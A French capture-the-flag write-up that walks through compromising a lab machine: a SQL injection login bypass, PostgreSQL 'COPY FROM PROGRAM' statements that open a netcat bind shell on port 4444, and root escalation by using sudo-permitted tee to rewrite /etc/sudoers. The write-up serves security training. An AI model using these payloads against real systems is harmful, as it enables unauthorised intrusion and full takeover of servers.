








# Write-up CTF Facile 3

## Etape 1 : Analyse de la cible

Lancer une analyse réseau nmap sur la cible afin de voir lesquels de ses ports sont ouverts (et donc potentiellement vulnérables).


On constate qu'un service http est actif. On insère donc l'IP dans l'url d'un navigateur web :


On remarque un onglet de login sur la page. Le type de faille le plus commun sur ce type de formulaire étant la SQL Injection, on effectue une injection pour se connecter en tant qu'admin pour vérifier si le site y est sensible ou non :

  
Nous sommes actuellement connectés en tant que l'utilisateur admin du site.
Pour ce faire, dans l'input de username, on a inséré `admin';--`, qui va retourner un fois inséré à son tour dans la requête effectuée au serveur de bases de données en back-end, une requête du type :
```sql
SELECT * FROM table_users WHERE username='admin';-- AND password='[valeur aléatoire]';
``` 
Cela permet donc de ne vérfier que le nom d'utilisateur et de commenter la partie de la vérification du mot de passe.

## Etape 2 : Injection SQL

Maintenant que l'on sait que le site est sensible aux injections SQL, et que l'on a vu que le fait d'être connecté en tant qu'admin ne nous avançait pas vraiment, le but est de trouver le moyen d'atteindre la machine serveur directement depuis ce formulaire de login. Le fait est qu'il est possible d'exécuter des commandes système arbitrairement sur la machine serveur avec des requêtes SQL, les RCE (Remote Code Execution). Ainsi, en tapant les commandes suivantes, le mieux étant de les taper une à une pour éviter tout problème, on peut récupérer un bind shell sur la machine cible :
```SQL
'; DROP TABLE IF EXISTS cmd_exec;-- On supprime ici la table cmd_exec si elle existe, afin de nettoyer la base de données avant de faire notre exploit
'; CREATE TABLE cmd_exec(cmd_output text);-- On recrée la table, qui va contenir dans son unique colonne une commande
'; COPY cmd_exec FROM PROGRAM 'nc -l -p 4444 -e /bin/bash';-- On copie dans notre table la commande suivante, qui va ouvrir une connexion Netcat sur le port 4444, et qui va fournir à l'utilisateur qui se connecte un shell, c'est notre bind shell
'; SELECT * FROM cmd_exec;-- Cette requête va exécuter la commande copiée dans la table plus tôt
```

On voit bien que le port 4444 s'est ouvert sur la machine cible :


## Etape 3 : Bind Shell


Il suffit ensuite de se connecter au serveur via Netcat, sur le port 4444 :


Maintenant que nous avons obtenu notre bind shell, nous pouvons directement exécuter des commandes bash sur la machine cible. Après un `ls`, on constate l'existence d'un fichier nommé ***user.txt***. On effectue donc un `cat` dessus, et comme on a les droits de lecture dessus, cela fonctionne :


## Etape 4 : Elévation des privilèges

On a réussi à ce stade à récupérer le premier flag. Pour récupérer le deuxième, le but maintenant est d'obtenir une élévation des privilèges afin d'obtenir les droits root. On tape donc la commande `sudo -l` afin de voir si notre utillisateur **postgres** a le droit d'utiliser certaines commandes en `sudo` sans avoir à fournir de mot de passe, et on s'aperçoit qu'il a le droit d'utiliser la commande `/bin/tee` : 


`tee` est une commande qui permet de lire sur l'entrée standard (clavier) et d'écrire sur la sortie standard (écran) tout en écrivant dans des fichiers. Ce qui nous intéresse ici, c'est la possibilité de modifier des fichiers en étant `sudo`. On décide donc ici de modifier le fichier ***/etc/sudoers*** qui contient les règles des droits sur `sudo` aux utilisateurs du système. Ce fichier, naturellement, n'est modifiable qu'avec des droits administrateurs. En tapant la commande suivante, on permet à l'utilisateur avec lequel on est connecté d'utiliser toutes les commandes système avec les droits root :


Maintenant qu'on peut utiliser toutes les commandes sytèmes en tant que root, on peut voir le contenu du répertoire ***/root***. Après un `sudo ls /root`, on trouve un fichier ***root.txt*** qu'on affiche dans la console : 


Ainsi, on a récupéré les flags *user* et *root*, et à ce stade du CTF, nous pouvons effectuer toutes les commandes que l'on veut en tant que root. Ainsi, la machine est désormais totalement sous notre contrôle.

